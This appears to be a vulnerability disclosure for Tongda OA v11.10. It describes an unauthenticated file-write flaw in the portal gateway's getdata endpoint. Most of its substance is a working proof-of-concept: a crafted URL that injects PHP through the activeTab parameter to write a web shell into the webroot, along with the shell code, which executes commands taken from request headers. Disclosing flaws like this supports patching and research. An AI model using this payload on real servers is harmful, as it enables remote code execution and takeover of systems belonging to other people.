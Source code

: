 Tongda OA v11.10 has unauthorized arbitrary file upload vulnerability

official website:https://www.tongda2000.com/

version:v11.10

1. The actionGetdata() method exists in the code general\appbuilder\modules\portal\controllers\GatewayController.php, where the activeTab parameter is controllable. In line 2018 the activeTab argument is in the GetData method.

![WPS图片(1)](https://user-images.githubusercontent.com/131632691/236481314-252c56c0-e488-4523-bb24-3d56b149fbbf.png)

In the GetData() method, query the id argument by findall to see if the array exists, and if the queried id does, enter the if statement on line 21. So the $attribute argument in line 38 is controllable, causing the array to be closed and thus written to the file via fwrite().

![WPS图片(2)](https://user-images.githubusercontent.com/131632691/236481926-d2a3976d-8c18-46eb-b3e0-59602a4861df.png)

2. The vulnerability reappears

poc

```
http://url/general/appbuilder/web/portal/gateway/getdata?activeTab=%e5%27,1%3d%3Efwrite(fopen(%22C:/YAOA/webroot/general/1.php%22,%22w+%22),%22%3C?php%20eval(next(getallheaders()));%22))%3b/*&id=266&module=Carouselimage
```

![WPS图片(3)](https://user-images.githubusercontent.com/131632691/236482594-8413af7a-b2be-414d-b505-6e2168315c80.png)

Write php files with fwrite(fopen()) through array closure, and bypass global filtering with no parameter.

```
<? php eval(next(getallheaders()));
```

![WPS图片(4)](https://user-images.githubusercontent.com/131632691/236483030-f919db34-e785-44ed-9709-668de0edd75e.png)


Write the 2.php file with no argument, and the file contents are as follows.

![WPS图片(5)](https://user-images.githubusercontent.com/131632691/236483301-fc6a2a6e-06f3-43b4-9ecb-112b09c71ae1.png)

![WPS图片(6)](https://user-images.githubusercontent.com/131632691/236483345-d9d89c17-54aa-4c59-b812-b0175f7f45e8.png)


